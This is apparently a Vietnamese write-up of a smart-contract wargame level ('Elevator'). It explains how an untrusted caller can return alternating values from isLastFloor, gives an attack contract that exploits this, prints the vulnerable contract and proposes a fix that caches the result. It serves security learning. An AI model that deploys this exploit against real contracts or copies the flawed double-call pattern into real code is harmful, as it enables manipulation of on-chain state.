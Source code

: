 ### Kết luận
- Lỗ hổng: Logic `isLastFloor` không được kiểm tra nguồn gốc, kẻ tấn công có thể giả mạo `Building` để logic `isLastFloor` về giá trị mong muốn, và có thể gọi nhiều lần `isLastFloor`.
- Cách phòng ngừa: Kiểm tra người gọi, thêm biến tạm thời và sử dụng kết quả tạm thời.
- VD:
  ```solidity
  function goTo(uint256 _floor) public {
  Building building = Building(msg.sender);
  bool lastFloor = building.isLastFloor(_floor); // Lưu kết quả tạm thời
  require(!lastFloor, "Already at last floor");
  floor = _floor;
  top = lastFloor; // Sử dụng kết quả tạm thời
}
```
  ```
### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface IElevator{
    function goTo(uint256 _floor) external;
}
contract elevatorAttack{
    IElevator victim;
    bool public isLast = true;

    constructor (address challenge){
        victim = IElevator(challenge);
    }
    function attack() external payable{
        victim.goTo(0);
    }
    function isLastFloor(uint256) public returns (bool) {
        isLast = !isLast;
        return isLast;
    }
}
```
### Contrac
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
